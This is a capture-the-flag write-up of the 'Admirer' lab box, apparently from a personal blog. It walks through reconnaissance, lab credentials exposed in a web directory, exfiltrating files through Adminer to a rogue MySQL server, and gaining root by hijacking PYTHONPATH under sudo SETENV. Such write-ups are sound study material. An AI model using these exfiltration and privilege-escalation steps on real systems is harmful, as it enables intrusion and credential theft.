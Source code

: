 ```yaml
---
layout: page
title:  "ADMIRER"
permalink: /admirer/
comments: true
---
```

[Or not, back to HOME!](/)<br>
<br>
<br>
<br>
<br>
# ADMIRER
{: .fw-300 .lh-0 }
#### SUMMARY
{: .fs-6 .fw-300 .lh-0 }
<!-- excerpt-start -->
A python script, which imports module without explicitly setting the search path, can be called by a command. Such command has tag SETENV enabled and can be run as superuser, if by user waldo.<br>
<br>
Waldo uses the same credential for logging into the box and configuring website.<br>
<br>
Despite the MySQL server on the box only listens to local clients, one local client called Adminer uses a web page as interface, and such web page is for some reason available to everyone.<br>
<!-- excerpt-end -->
<br>
<br>
<br>
<br>
<br>
#### REFERENCE
{: .fs-6 .fw-300 .lh-0 }
[Rogue MySQL Server](https://github.com/allyshka/Rogue-MySql-Server)<br>
<br>
<br>
<br>
<br>
<br>
#### WALKTHROUGH
{: .fs-6 .fw-300 .lh-0 }
[Skip to obtaining foothold!](/admirer/#foothold)<br>
[Skip to obtaining root!](/admirer/#root)<br>
<br>
<br>
Surface check.<br>
`nmap -sV -sC admirer.htb -oA tcp_t1k -v; searchsploit --nmap tcp_t1k.xml -v`<br>
<details close markdown="block">
<summary>
Edit searchsploit to make option nmap somewhat usable. Hope for minor typo fix but end up everywhere. Manual search from now on.
</summary>
Check out how xml is parsed in function `nmapxml()`.<br>
```bash
xmllint --xpath '//address/@addr|//service/@name|//service/@product|//service/@version' "${FILE}" \
    | sed -e $'s/addr=/\\\n[IP] /g;   s/name=/\\\n[NAME] /g;   s/product=/\\\n[PRODUCT] /g;s/" version="/\\\n[VERSION] /g;   s/"//g' \
```
`addr`, `name`, `product`, `version` are all xml attributes that need to be picked up by `sed` expression string, yet only `s/" version="/\\\n[VERSION] /g;` has this weird quoted space situation going on. Space removed.<br>
```
[i] searchsploit openssh 7 4p1 debian 10 deb9u7
```
It's not `openssh 7.4p1 debian 10+deb9u7`?<br>
Check out function `searchsploitout()`, which is where those formatted version strings go.<br>
```bash
## Try and remove terms that could confuse searches
software=$( echo "${software}" | sed -e 's/[^a-zA-Z0-9]/ /g' )
```
Non-alphanumeric characters are swapped with spaces, to not "confuse searches". Manual search term `openssh 7.4p1`, the search does not seems to be confused tho.<br>
```
------------------------------------------------------------------------------------------------------- -------------------------
 Exploit Title                                                                                         |  Path
------------------------------------------------------------------------------------------------------- -------------------------
OpenSSH 2.3 < 7.7 - Username Enumeration                                                               | linux/remote/45233.py
OpenSSH 2.3 < 7.7 - Username Enumeration (PoC)                                                         | linux/remote/45210.py
OpenSSH < 7.4 - 'UsePrivilegeSeparation Disabled' Forwarded Unix Domain Sockets Privilege Escalation   | linux/local/40962.txt
OpenSSH < 7.4 - agent Protocol Arbitrary Library Loading                                               | linux/remote/40963.txt
OpenSSH < 7.7 - User Enumeration (2)                                                                   | linux/remote/45939.py
------------------------------------------------------------------------------------------------------- -------------------------
```
Line commented out.<br>
```
[-] Skipping output: openssh 7.4p1   (Too many results, 100+. You'll need to force a search: searchsploit openssh 7.4p1
```
8, as in the block before, has turned into "Too many results, 100+".<br>
Locate such string, and read code above.<br>
```bash
arg="-t"   ## Title search by default!
```
Manual search term `openssh 7.4p1` but this time with `-t`.<br>
```bash
searchsploit -t 'openssh 7.4p1' | wc -l
226
```
Maybe it is the non-alphanumeric character dot that "confuse searches".<br>
```bash
searchsploit -t 'openssh 7 4p1' | wc -l
472
```
Void, void that arg!<br>
Then the auto-search finally behaves like a manual one: `openssh 7.4p1` is tried, then `openssh 7.4p1 debian` and `openssh 7.4p1 debian 10+deb9u7` and.<br>
```
[-] Skipping term: apachehttpd2.4.25
```
</details>
Per nmap, ftp is open on port 21, ssh is open on port 22, and http is open on port 80 with `robots.txt` of one disallowed entry `/admin-dir`.<br>
<br>
<br>
```
ftp admirer.htb
Connected to admirer.htb.
220 (vsFTPd 3.0.3)
Name (admirer.htb:scum):^C
```
Local username is somehow prompted. Maybe if an ftp cred is obtained later on, use it on ssh or su. Anyways, need cred so leave it for now.<br>
<br>
<br>
The blog has pictures and a feedback box with html comment "Still under development... This does not send anything yet, but it looks nice!".<br>
<details close markdown="block">
<summary>
Screenshot of the blog.
</summary>
![](/assets/images/admirer/blog.png)
[Seriously, listen to album The Third Chimpanzee. Thank the creators later.]<br>
![](/assets/images/admirer/feedback.png)
[Dead buttons.]<br>
</details>
`gobuster` under the forbidden `/admin-dir`: `contacts.txt` and `credentials.txt`.<br>
[There actually is a comment in `robots.txt`: "This folder contains personal contacts and creds, so no one -not even robots- should see it - waldo"; with such info one could grep `contact` and `cred` in wordlists and significantly reduce bruteforce attempts.]<br>
<details close markdown="block">
<summary>
Content of two files.
</summary>
```
##########
# admins #
##########
# Penny
Email: p.wise@admirer.htb

##############
# developers #
##############
# Rajesh
Email: r.nayyar@admirer.htb
# Amy
Email: a.bialik@admirer.htb
# Leonard
Email: l.galecki@admirer.htb

#############
# designers #
#############
# Howard
Email: h.helberg@admirer.htb
# Bernadette
Email: b.rauch@admirer.htb

[Internal mail account]
w.cooper@admirer.htb
fgJr6q#S\W:$P

[FTP account]
ftpuser
%n?4Wz}R$tTF7

[Wordpress account]
admin
w0rdpr3ss01!
```
Full names except `w.cooper`, job titles, three creds, and that there could be a WordPress and an "internal" mail service. [No idea how "internal" this mailing stuff is but, something that is supposed to be internal is totally out there, as we'll see later.]<br>
</details>
<br>
<br>  
Fail to ssh in as `ftpuser`.<br>  
<details close markdown="block">
<summary>
Message returned.
</summary>
```
Linux admirer 4.9.0-12-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Connection to admirer.htb closed.
```
Cred should be right, as otherwise the message will be "Permission denied, please try again.", but the connection is closed right after above message being sent.<br>
Send command via ssh does not stop the connection from closing, does not even stall it a bit.<br>
Check out manual of this `vsFTPd 3.0.3`. This `ftpuser` seems to be a "virtual user": "does not exist in /etc/shadow file" i.e. it's only for this ftp system. Still no idea why the above message is sent but.<br>
</details>
```
ftp admirer.htb
Connected to admirer.htb.
220 (vsFTPd 3.0.3)
Name (admirer.htb:scum): ftpuser
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0            3405 Dec 02  2019 dump.sql
-rw-r--r--    1 0        0         5270987 Dec 03  2019 html.tar.gz
226 Directory send OK.
```
The file share seems to be the source of the website. [Information overload all of a sudden.]<br>
[It's intended that after some digging, the comment in `utility-scripts/db_admin.php`, which is "TODO: Finish implementing this or find a better open source alternative", would remind you field people of a popular application Adminer, so you'd try `adminer.php` under this `utility-scripts/` and voila. Me without experiences just cry for help a lot then voila. Anyways.]<br>
<br>
<br>
<a id="foothold"></a>
<details close markdown="block">
<summary>
Screenshot of the interface offered by Adminer.
</summary>
![](/assets/images/admirer/adminer.png)
</details>
Checking out the database of the blog, using cred in `index.php` file from the ftp share, to be honest, is not even attractive here, as the blog only contains pictures and texts, shown in `dump.sql` from the ftp share. [Can it be that after the database is dumped, it's used for other purposes, which will lead us into the box? Ehh.]<br>
`searchsploit adminer 4.6.2`: no results.<br>
[Hit wall, and don't want to go mix-up-creds-and-try-each-combo-every-frigging-where route. Sure sense googling with version number would provide a quick way out but. Decide to first reason a bit about it myself. As I really don't know shits, and database applications they only aim for storing stuff (and give them back, always give them back), which should be the simplest application to understand.]<br>
<br>
<br>
Start of skiddie wild guess. [You have been warned, and corrections welcome.]<br>
Database applications store and give back stuff, that is, write and then read file in the file system, basically a fancy `vi` and a fancy `cat`. They also provide a way to search through, that is, give back only part of the stuff that has been stored, basically add a fancy `awk` and a fancy `grep`. Maybe that's the selling point of a database over a lame flat file: whatever required will be found out and returned, based on how customers would like to ask for stuff a query language is invented, and then this process of selecting what's asked is optimized towards speed, maybe stuff that's asked for  together a lot simply get fancy `vi`ed together, maybe fancy `grep` would go hoppity hop across lines following some rule instead of going through them one after another.<br>
A database is just a fancy file. Well maybe a fancy file is achieved by one lame file, or many lame files, or maybe fancy files and lame files match in some weird ass way that is good for speed. Still, databases are just fancy files, and a database application simply do fancy `vi` `cat` `awk` `grep` on lame files to give you this delusion of fancy files out of nowhere.<br>
Sanity check. Does the above wild guess match the user experience that I have had?<br>
I start with typing in terminal, say, `mysql -u` and yeee forgot to guess about authentications.<br>
<br>
<br>
Username and password make sense here, afterall files, even the fancy ones, need access control unless this world does not have secrets, well it very much has secrets so. To achieve the decision of who can access a fancy file, well a concept of who need to exist in the first place like duhh, and a username and a password is in this case what makes a who. Just like a lame file system, file permission stuff.<br>
So basically a database application is a fancy file system where you can log in and read write some fancy files! If I recall correctly, it even has its own cute root: king of this limited land and nothing across the border, which is kinda lame, afterall brilliant root, the one of the underlying blunt flat lame yet full-scale file system, can access everything, and the almighty database application from the cute root's point of view, is merely a normal user called `mysql` in the underlying world.<br>
<br>
<br>
At this point it becomes clear that, not having fancy cred only stops us from interacting with fancy file system and as I said earlier, they are ultimately just pictures and texts from the blog and we don't care about them anyways; not having fancy cred does *not* stop us from interacting with the underlying non-fancy file system, it is up to some other rules to stop us and they might just not.<br>
<br>
<br>
The returned stuff from the underlying file system, if any, has to be sent somewhere. It can't stay at any databases on target, as cred with write access there is needed but we don't have any, not to mention we have to read the same database later to get the info. Might as well set up our own database server, create a database x, and a cred saying "allowed to write database x here", and give this cred to database client `Adminer` so it can pass it to the database server on target. Once the server on target come with cred and successfully identified itself to the server on our box as someone who is "allowed to write database x here", we can then issue `LOAD DATA LOCAL` command to it, via `Adminer` of course as we simply lack of other interfaces, and that's it, data will be sent to database x, waiting to be read.<br>
To catch the returned stuff, our database server has to listen on traffic beyond those from localhost, which per my understanding, subject ourselves to the same attack that we're attempting on target. Pretty ironic. To avoid so, use a [pseudo server](https://github.com/allyshka/Rogue-MySql-Server).<br>
<details close markdown="block">
<summary>
Content of index.php returned.
</summary>
```
Enter filename to get [/var/www/html/index.php] > 
[.] Waiting for connection on 0.0.0.0:3306
[+] Connection from 10.10.10.187:36528 - greet... auth ok... some shit ok... want file... 
[+] /var/www/html/index.php from 10.10.10.187:36528:
[...]
$servername = "localhost";
$username = "waldo";
$password = "&<h5b~yK3F#{PaPB&dA}{H>";
$dbname = "admirerdb";
[...]
```
</details>
<br>
<br>
<a id="root"></a>
Then it's pretty smooth: cred reuse, hats time (it is `sudo -l` that worked).<br>
```
Matching Defaults entries for waldo on admirer:
    env_reset, env_file=/etc/sudoenv, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, listpw=always

User waldo may run the following commands on admirer:
    (ALL) SETENV: /opt/scripts/admin_tasks.sh
```
I used to assume all environment variables are automatically swapped by sudo, say `/home/bro` to `/home/another_bro`, now that I see `SETENV` appears at the place where `NOPASSWD` used to be, it seems that me the person who type the password, can also type in command line some syntax to set environment variables.<br>
<br>
<br>
<details close markdown="block">
<summary>
Content of /opt/scripts/admin_tasks.sh.
</summary>
```bash
#!/bin/bash

view_uptime()
{
    /usr/bin/uptime -p
}

view_users()
{
    /usr/bin/w
}

view_crontab()
{
    /usr/bin/crontab -l
}

backup_passwd()
{
    if [ "$EUID" -eq 0 ]
    then
        echo "Backing up /etc/passwd to /var/backups/passwd.bak..."
        /bin/cp /etc/passwd /var/backups/passwd.bak
        /bin/chown root:root /var/backups/passwd.bak
        /bin/chmod 600 /var/backups/passwd.bak
        echo "Done."
    else
        echo "Insufficient privileges to perform the selected operation."
    fi
}

backup_shadow()
{
    if [ "$EUID" -eq 0 ]
    then
        echo "Backing up /etc/shadow to /var/backups/shadow.bak..."
        /bin/cp /etc/shadow /var/backups/shadow.bak
        /bin/chown root:shadow /var/backups/shadow.bak
        /bin/chmod 600 /var/backups/shadow.bak
        echo "Done."
    else
        echo "Insufficient privileges to perform the selected operation."
    fi
}

backup_web()
{
    if [ "$EUID" -eq 0 ]
    then
        echo "Running backup script in the background, it might take a while..."
        /opt/scripts/backup.py &
    else
        echo "Insufficient privileges to perform the selected operation."
    fi
}

backup_db()
{
    if [ "$EUID" -eq 0 ]
    then
        echo "Running mysqldump in the background, it may take a while..."
        #/usr/bin/mysqldump -u root admirerdb > /srv/ftp/dump.sql &
        /usr/bin/mysqldump -u root admirerdb > /var/backups/dump.sql &
    else
        echo "Insufficient privileges to perform the selected operation."
    fi
}

# Non-interactive way, to be used by the web interface
if [ $# -eq 1 ]
then
    option=$1
    case $option in
        1) view_uptime ;;
        2) view_users ;;
        3) view_crontab ;;
        4) backup_passwd ;;
        5) backup_shadow ;;
        6) backup_web ;;
        7) backup_db ;;

        *) echo "Unknown option." >&2
    esac

    exit 0
fi

# Interactive way, to be called from the command line
options=("View system uptime"
         "View logged in users"
         "View crontab"
         "Backup passwd file"
         "Backup shadow file"
         "Backup web data"
         "Backup DB"
         "Quit")
echo
echo "[[[ System Administration Menu ]]]"
PS3="Choose an option: "
COLUMNS=11
select opt in "${options[@]}"; do
    case $REPLY in
        1) view_uptime ; break ;;
        2) view_users ; break ;;
        3) view_crontab ; break ;;
        4) backup_passwd ; break ;;
        5) backup_shadow ; break ;;
        6) backup_web ; break ;;
        7) backup_db ; break ;;
        8) echo "Bye!" ; break ;;

        *) echo "Unknown option." >&2
    esac
done

exit 0
```
</details>
User input limited to an option number, then it's up to the script to call some binaries. Full path specified, can't write to those path, can't write to those binaries either. `/opt/scripts/backup.py`, which is behind option 6, stands out as not being part of a standard install.<br>
<details close markdown="block">
<summary>
Content of /opt/scripts/backup.py.
</summary>
```python
#!/usr/bin/python3
from shutil import make_archive
src = '/var/www/html/'
# old ftp directory, not used anymore
#dst = '/srv/ftp/html'
dst = '/var/backups/html'
make_archive(dst, 'gztar', src)
```
</details>
`from shutil import make_archive`, so go to directory of choice, create `shutil.py` in which function `make_archive` is defined as taking three arguments but only doing payload of choice, then `sudo -E PYTHONPATH=<dir_of_choice> /opt/scripts/admin_tasks.sh 6`.<br>
<br>
<br>
That's it for the box.
